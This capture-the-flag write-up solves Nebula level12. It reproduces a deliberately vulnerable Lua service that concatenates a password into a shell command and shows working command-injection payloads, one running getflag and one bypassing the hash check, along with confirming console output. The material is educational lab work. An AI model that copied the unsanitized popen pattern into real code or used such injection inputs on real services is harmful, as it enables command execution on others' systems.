 ## Challenge
There is a backdoor process listening on port 50001.

To do this level, log in as the level12 account with the password level12. Files for this level can be found in /home/flag12.

## Solution
```lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 50001))

function hash(password)
        prog = io.popen("echo "..password.." | sha1sum", "r")
        data = prog:read("*all")
        prog:close()

        data = string.sub(data, 1, 40)

        return data
end


while 1 do
        local client = server:accept()
        client:send("Password: ")
        client:settimeout(60)
        local line, err = client:receive()
        if not err then
                print("trying " .. line) -- log from where ;\
                local h = hash(line)

                if h ~= "4754a4f4bd5787accd33de887b9250a0691dd198" then
                        client:send("Better luck next time\n");
                else
                        client:send("Congrats, your token is 413**CARRIER LOST**\n")
                end

        end

        client:close()
end
```
So this program basically reads a password from the socket, `sha1`s it and compares to a given hash.

One of the properties of a hash function is irreversibility, in other words, you cannot find the input given a hash digest.

Although `sha1` is no longer considered a cryptographically sound hash function, finding a `hash-collision` is hard.

Can we find a easier way?

The approach taken to calculate the password's `sha1` is rather interesting...
```lua
prog = io.popen("echo "..password.." | sha1sum", "r")
```
String the given password to `echo`, pipe it to `sha1sum` and run.

No sanitization whatsoever... `command-injection` should do the job.
```shell
echo | getflag > /home/flag12/flagged | sha1sum
```
So password should be `| getflag > /home/flag12/flagged`.
```console
level12@nebula:/home/flag12$ nc 127.0.0.1 50001
Password: | getflag > /home/flag12/flagged
Better luck next time
level12@nebula:/home/flag12$ ls -la
total 10
drwxr-x--- 1 flag12 level12   60 2021-06-12 12:31 .
drwxr-xr-x 1 root   root      80 2012-08-27 07:18 ..
-rw-r--r-- 1 flag12 flag12   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag12 flag12  3353 2011-05-18 02:54 .bashrc
-rw-r--r-- 1 root   root     685 2011-11-20 21:22 flag12.lua
-rw-r--r-- 1 flag12 flag12    59 2021-06-12 12:31 flagged
-rw-r--r-- 1 flag12 flag12   675 2011-05-18 02:54 .profile
level12@nebula:/home/flag12$ cat flagged
You have successfully executed getflag on a target account
```

### Bonus
You can also trick the execution flow into thinking you calculated the correct hash.
```shell
echo 4754a4f4bd5787accd33de887b9250a0691dd198;# | sha1sum
```
But it seems to yield nothing interesting :P
```console
level12@nebula:/home/flag12$ nc 127.0.0.1 50001
Password: 4754a4f4bd5787accd33de887b9250a0691dd198;#
Congrats, your token is 413**CARRIER LOST**
```
